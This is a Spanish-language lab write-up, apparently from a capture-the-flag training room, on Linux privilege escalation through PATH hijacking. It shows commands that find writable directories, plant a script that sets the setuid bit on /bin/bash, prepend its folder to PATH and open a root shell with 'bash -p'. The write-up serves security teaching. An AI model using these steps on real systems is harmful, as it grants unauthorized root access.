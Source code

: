 # Path

Si en la ruta se encuentra una carpeta para la cual su usuario tiene permiso de escritura, podría secuestrar una aplicación para ejecutar un script. PATH en Linux es una variable ambiental que le dice al sistema operativo dónde buscar ejecutables. Para cualquier comando que no esté integrado en el shell o que no esté definido con una ruta absoluta, Linux comenzará a buscar en las carpetas definidas en PATH. (PATH es la variable ambiental de la que estamos hablando aquí, ruta es la ubicación de un archivo).

```shell
karen@ip-10-10-202-24:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

```
find / -writable 2>/dev/null
```

```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

<figure><img src="../../.gitbook/assets/20231008175337.png" alt=""><figcaption></figcaption></figure>

```
home/murdoch
```

<figure><img src="../../.gitbook/assets/20231008181046.png" alt=""><figcaption></figcaption></figure>

```
karen@ip-10-10-202-24:/tmp/tmp.pYUM27Y7zs$ echo 'chmod +s /bin/bash' > thm
```

```shell
karen@ip-10-10-202-24:/tmp/tmp.pYUM27Y7zs$ cat thm 
#!/bin/bash
chmod +s /bin/bash
```

```shell
karen@ip-10-10-202-24:/tmp/tmp.pYUM27Y7zs$ export PATH=/tmp/tmp.pYUM27Y7zs:$PATH
```

<figure><img src="../../.gitbook/assets/20231008182441.png" alt=""><figcaption></figcaption></figure>

```
bash -p
```

<figure><img src="../../.gitbook/assets/20231008182536.png" alt=""><figcaption></figcaption></figure>
